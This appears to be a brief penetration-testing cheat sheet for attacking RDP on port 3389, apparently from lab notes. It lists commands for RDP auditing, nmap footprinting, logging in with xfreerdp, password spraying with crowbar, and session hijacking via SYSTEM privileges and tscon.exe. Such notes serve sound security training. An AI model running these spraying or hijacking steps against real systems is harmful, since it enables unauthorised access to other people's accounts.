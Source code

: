 Port: 3389
- RDP works better with cleartext passwords instead of PtH

RDP auditing
```bash
./rdp-sec-check.pl 10.129.201.248
```
(nmap) Footprinting RDP
```bash
nmap -sV -sC 10.129.201.248 -p3389 --script rdp*
```
(xfreerdp) Connecting RDP
```bash
xfreerdp /u:test-user /p:"Password1!" /v:10.129.201.248
```
RDP Password Spraying
```bash
crowbar -b rdp -s '192.168.220.142/32' -U users.txt -c 'password123'
```
RDP Session Hijacking
When two user account is logged in with RDP, we can hijack the accounts.
- [ ] SYSTEM privileges
- [ ] tscon.exe
Finding other RDP session (PS)
```powershell
query user
```